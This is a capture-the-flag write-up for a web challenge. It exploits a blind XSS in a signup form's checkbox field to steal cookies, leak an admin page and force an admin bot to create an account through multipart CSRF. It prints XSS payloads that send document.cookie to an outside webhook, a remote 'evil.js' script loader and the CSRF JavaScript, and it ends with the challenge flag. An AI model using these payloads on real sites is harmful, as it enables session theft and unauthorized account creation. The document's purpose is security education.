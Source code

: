 # Write up - Raas Recruitment

## Category

Web

## Description

We found the APT403 recruitment site.

Tried to find a way to exploit their website  !

https://recruitment.cyberthreatforce-ctf.com/

## Solution

We arrive first on a page that seems to let us create an account:

![alt](Images/1.png)

If we register on the site, we are redirected to a page that confirms our registration, but nothing more. Since this is the only page we have access to, we'll have to play with it to see what we can do.

We could be tempted to try SQL injections, but that doesn't work. 

(Note: It was actually possible to perform an SQL injection, but this was not planned by the author of the challenge. So I won't detail how to do it in this write-up).

So I decide to intercept the request with burp, to see how the parameters are passed: 

![alt](Images/2.png)

So we notice that the form is a multipart, and that only the fields already visible are sent. Since we don't have any other entry points, and the challenge seems realistic, I'll play with the parameters, and one in particular. 

When we create a web site and we put a checkbox, the value (normally) returned will be either "yes" or "no". It can be thought that a developer does not think to check the value sent. 

Note: From this step, any exploit will be done in blind since we have no return.

I tried to inject the following payloads:

- <code>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">'>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>

With the last payload, the magic happens:

![alt](Images/3.png)

So, for the first part of this challenge, it is a blind xss!, on the other hand, there is no coookie. Indeed, with a little recognition, we find the endpoint "/admin", but obviously we don't have access to it. 

Our blind xss will be used to leak this page with the bot ! I will use the following payload:

![alt](Images/4.png)

Unfortunately, the payload doesn't go through, but it's not because of the bot, in fact, there must be a character limit that prevents us from sending such a large payload. So here we will simply write this javascript in a file, put it on a VPS, and use the following payload:

- <code>">'>< script src="https://midnightflag.fr/evil.js">< /script></code>

Note: You have to load the javascript from a site using "https", otherwise it won't work.

We send the payload and .... no return. Indeed, the administration page of the admin must be important in size, which makes that the URL will be too long, and the request will not succeed. So we have to use substr, to select only a part of the HTML page:

![alt](Images/5.png)

We send back our payload, and we get a response from the bot:

![alt](Images/6.png)

Here I'll spare you the long method of leaking the whole page, and only show you the interesting part:

![alt](Images/7.png)

So we see a link to a hidden part of the site "/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/", if we go there, we observe a simple login page:

![alt](Images/8.png)

From the HTML above, we will have to create an account. But, something caught my eye, indeed, after reading the HTML, I noticed this javascript script: "prcmSDAui9SeXxbuuaUKjEAJ5qIGY9B9vPFMwW19.js", so I'm going to look at this script to see what it does. After a little bit of deobfuscation, we see this part that seems to make the request to create a "DEV" account:

<code><pre>
let _0x4b66bd = new FormData();
_0x4b66bd.append("username", trim($("#.username").val())) 
_0x4b66bd.append("password", trim($('.password').val())), _0x4b66bd.append('password2', trim($('.password2').val()))
$['ajax']({
    'type': "POST",
    'url': "hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",
    'data': _0x4b66bd,
    'cache': ![],
    'contentType': ![],
    'processData': ![],
    'context': this,
    'before': function() {},
    'success': function(_0x1935b7) {
        const _0x2c408d = _0x3d62c3;
        console[_0x2c408d(0x7d)](_0x1935b7), $(_0x2c408d(0x72))[0x0][_0x2c408d(0x71)]();
    }
});
</pre></code>

So we have the link of the real PHP script where we have to type to create our account, and there another problem arises : We will have to make a CSRF thanks to the bot, but it is not a classic form, it is a mutlipart/form-data. 

So I'll try a first payload for the bot to create my account:

<code><pre>
var formData = new FormData();
formData.append("username","Wortax");
formData.append("password","LpmJDIZADr45632!\*");
formData.append("password2","LpmJDIZADr45632!\*");
var xml = new XMLHttpRequest();
xml.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",true);
xml.send(formData)
</pre></code>

Here, I reproduce the ajax request that we saw above, so I think that the payload is good since it is what is done on the admin side. So we wait for the bot to pass and... the account is not created, we will have to use another payload.


At the beginning of this write-up, remember that we intercepted a request with burp, which allowed us to see that the parameters were passed in multipart/form-data. We will now create our request in this specific form, so that it works:

<code><pre>
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="username"

Wortax
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password"

Wortax123!
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password2"

Wortax123!
-----------------------------350181559013892253873845607352--
</pre></code>

We integrate all this in a js script:

<code><pre>
window.onload = function()
{
    var xhr = new XMLHttpRequest();
    xhr.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",false)
    xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8");
    xhr.setRequestHeader("Accept-Language", "tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------350181559013892253873845607352");
    var body =
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"username\"\r\n\n" +
    "Wortax\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password2\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352--\r\n";

    xhr.send(body)
}
</pre></code>

We send this to the bot and try to connect:

![alt](Images/9.png)


Thanks to the author of this challenge! :)

## Flag

CYBERTF{L0ok_M0m_i_C4n_FouNd_XsS_aNd_3xpLoiT_It}